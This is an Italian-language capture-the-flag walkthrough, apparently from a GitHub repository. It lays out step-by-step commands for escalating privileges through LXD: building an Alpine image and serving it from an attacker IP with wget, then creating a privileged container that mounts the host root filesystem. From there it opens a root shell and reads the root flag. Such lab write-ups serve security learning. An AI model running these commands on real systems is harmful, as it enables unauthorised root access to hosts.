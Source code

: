 1) Nel computer mi clono questa directory: 
  git clone  https://github.com/saghul/lxd-alpine-builder.git

2) Entro nella cartella lxd-alpine-builder:
  cd lxd-alpine-builder

3) Eseguo l'eseguibile "build-alpine":
 sudo ./build-alpine

4) Poi nella stessa directory avvio un webserver in python:
   python3 -m http.server 8000

----> Nella Macchina Target(Entro prima nella cartella tmp: cd /tmp):

5) Mi scarico il file "alpine-v3.13-x86_64-20210218_0139.tar.gz":
  wget http://10.8.21.1:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

6) Eseguo il file appena scaricato:
  lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz   --alias myimage

7) Eseguo i seguenti comandi per far spawnare la shell di root:
  - lxc init myimage ignite -c security.privileged=true
  -->OUTPUT: Creating ignite
  - lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  -->OUTPUT:Device mydevice added to ignite
  - lxc start ignite
  - lxc exec ignite /bin/sh

8) Ora che sono root, navigando nelle directory scopro che nella directory /mnt/root/root ci sta la root flag:
  cat /mnt/root/root/root.txt


